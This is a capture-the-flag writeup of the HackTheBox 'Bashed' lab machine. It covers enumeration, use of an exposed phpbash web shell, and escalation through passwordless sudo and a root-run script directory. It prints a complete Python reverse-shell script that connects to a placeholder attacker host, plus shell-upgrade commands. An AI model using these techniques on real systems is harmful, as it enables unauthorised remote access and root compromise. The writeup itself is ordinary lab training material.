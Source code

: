```yaml
---
weight: 1
title: "HackTheBox - Bashed Writeup"
date: 2022-03-01
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["python-shell", "gobuster", "crontab", "upgrade-shell-python", "phpbash-webshell"]
categories: ["HacktheBox","Linux"]

lightgallery: true
toc:
  auto: false
---
```


Box author | {{< person url="https://app.hackthebox.com/users/2904" name="Arrexel" picture="https://www.hackthebox.com/storage/avatars/4a677d39a1156ca6a4f2fdce085aa3da.png" >}}

<!--more-->

## Nmap

As always. I'm gonna run the Nmap scan. Here is the result of the scan.

### result

```sql
# Nmap 7.92 scan initiated Sat Feb 26 01:50:32 2022 as: nmap -sC -sV -oN nmap/bashed 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 26 01:50:44 2022 -- 1 IP address (1 host up) scanned in 12.17 seconds
```

port `80/HTTP` is the only one open.

### Http

Let's take a look at the website. 

![phpbash webpage](website.png "phpbash webpage")

Turns out, the `phpbash` is a web shell. Well, it is an open-source project and I found the GitHub link on the site itself.

```bash
https://github.com/Arrexel/phpbash
```

On the GitHub page. The `phpbash` location looks like at the uploads directory. However, when I went to the uploads directory it's nothing there.

![check upload directory](upload_dir.png "check upload directory")

### Gobuster

So, I'm gonna run the `gobuster` to search all hidden directories. It found a bunch of directories but the `/dev` really caught my eye.

![gobuster](gobuster.png "gobuster")

### /dev

Let's take a look at the `/dev` directory. Wow! found it. Now, I'm just clicking the `phpbash.php` and I've got the web shell as the `www-data` user. 

![directory listing](dev.png "directory listing")

![phpbash web shell](web_shell.png "phpbash web shell")

## Reverse Shell

Let's try to get the proper reverse shell. I have already tried a bunch of things to gain the reverse shell. However, the `base64` method seems to be working.

So, the first thing is I'm gonna encoded this `bash reverse shell` into `base64`

![bash oneliner base64](b64.png "bash oneliner base64")

Then, I'm gonna put it into the input of `phpbash`. Down below; is a syntax should be.  Make sure to set up an `nc` listener first. 

![execute reverse shell](bs64_webshell.png "execute reverse shell")

![shell as www-data](got_the_shell.png "shell as www-data")

### Upgrade shell using python

YES! I got the shell. Let's upgrade this shell into a proper shell. First, let's import called `/bin/bash` using python with `pty module`. Then, export the terminal to have the clear screen and press `Ctrl + Z` to put it, into the background. Last, type the `stty raw -echo; fg` and press `Enter` 2 times, and there you go!

```bash
-> python3 -c 'import pty;pty.spawn("/bin/bash")'
-> export TERM=xterm
Ctrl + Z 
-> stty raw -echo; fg
```

### User scriptmanager

The first thing a love to do when get access to the machine. I love to check the sudo permission. Let's check it with `sudo -l`. Shockingly, I can run the `sudo` with the `www-data` user. 

![check sudo permission](scriptmanager.png "check sudo permission")

Looks like, I can run any command with the `scriptmanager` user without authentication. Well, let's change into that user with this syntax;

```bash
sudo -u scriptmanager bash
```

![change user to scriptmanager](change_2_scriptmanager.png "change user to scriptmanager")

### /scripts

This is caught by surprise. I found the `/scripts` directory located in the base `/`. Luckily, I already become the `scriptmanager`. Let's take a peek into the particular directory.

![found /scripts directory](script_dir.png "found /scripts directory")

So, the directory content 2 files are called `test.py` and `test.txt`. However, the test.txt is owned by the `root` user. After endless investigation ;) Looks like any python file in here is gonna run by root. Like a `cronjob`.

![contents in /scripts](contents.png "contents in /scripts")

## Root Shell

What we know. Any python file in that directory got to execute. So, I'm gonna make a `python file` that contains `reverse shell`. After, all set up just wait for a minute, and BOOM! <br>
_<font color="yellow">make sure to setup nc listener first</font>_

```python
# Python Reverse Shell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("TUN0",PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")
```

![shell as root](petai_root.png "shell as root")
